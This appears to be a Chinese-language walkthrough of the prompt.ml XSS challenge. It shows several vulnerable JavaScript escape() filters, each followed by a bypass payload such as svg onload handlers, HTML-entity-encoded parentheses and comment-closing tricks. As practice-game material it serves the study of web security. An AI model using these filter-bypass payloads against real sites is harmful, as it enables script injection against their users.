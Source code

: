 （或许可以参考 [PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html) 做法，但是没多大意义）

```javascript
<svg/onload=prompt(1)
```

#### 2.

```javascript
function escape(input) {
    //v-- frowny face
    input = input.replace(/[=(]/g, '');
    // ok seriously, disallows equal signs and open parenthesis
    return input;
}  
```

```javascript
( 用 html 实体编码绕过
// Firefox
<svg><script>prompt&#x28;1)<b>
// Chrome
<svg><script>prompt&#40;1)</script>
```

#### 3. 注释符

```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
} 
```

```javascript
--> 和 --!> 都能闭合注释
--!><svg/onload=prompt(1)
```

#### 4. 假同域

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i
        .test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
} 
```
